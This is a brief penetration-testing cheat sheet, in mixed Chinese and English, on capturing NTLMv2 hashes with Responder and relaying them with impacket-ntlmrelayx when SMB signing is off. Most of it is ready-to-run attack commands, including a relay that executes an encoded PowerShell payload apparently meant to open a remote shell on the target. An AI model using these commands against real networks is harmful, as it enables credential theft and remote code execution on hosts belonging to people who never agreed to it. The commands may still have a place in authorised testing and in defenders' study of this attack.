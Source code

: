 **NO!** SMB ! message_signing !  **Enable!**
[Windows MITM Tool](https://github.com/Kevin-Robertson/Inveigh)
# Responder
获取认证用户的NTLMv2
```bash
ip a #choose the interface
sudo responder -I tun0 #/etc/responder/Responder.conf
responder -I [Interface] -i [IP Address] or -e [External IP] -A
responder -I [Interface] -A

```
on backend windows:
```bash
dir \\<responder_ip>\<random_dir> 
```
# ntlmrelayx.py
中间人攻击，中继hash
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t <relay_target_IP> -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
